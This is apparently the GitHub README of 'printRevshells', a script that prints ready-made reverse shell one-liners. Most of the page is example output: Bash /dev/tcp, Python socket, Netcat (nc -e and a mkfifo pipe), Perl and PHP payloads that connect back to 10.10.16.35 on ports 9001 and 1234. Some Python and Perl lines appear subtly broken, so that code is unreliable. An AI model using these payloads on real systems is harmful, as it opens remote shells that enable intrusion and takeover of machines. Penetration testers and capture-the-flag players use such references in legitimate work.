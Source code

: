 ## printRevshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/therodri2/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```


### Usage
If you followed the installation instructions, you will have added *printRevshells* to an existing folder included within your PATH.

Also, you will be the owner of the file, so you can execute it even if you are not root :P

Therefore, all you need to do to call this script is to simply type `printRevshells`

Example:

```
shroudri@kali:/tmp$ printRevshells
Bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

Netcat
nc -e /bin/sh 10.10.16.35 9001
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 9001 >/tmp/f 

Perl
perl -e 'use Socket;="10.10.16.35";=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
php -r '$sock=fsockopen("10.10.16.35",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```
### - Wait! But I want to specify the port!

By default, *if no arguments are provided*, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
`` printRevshells 1234``

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
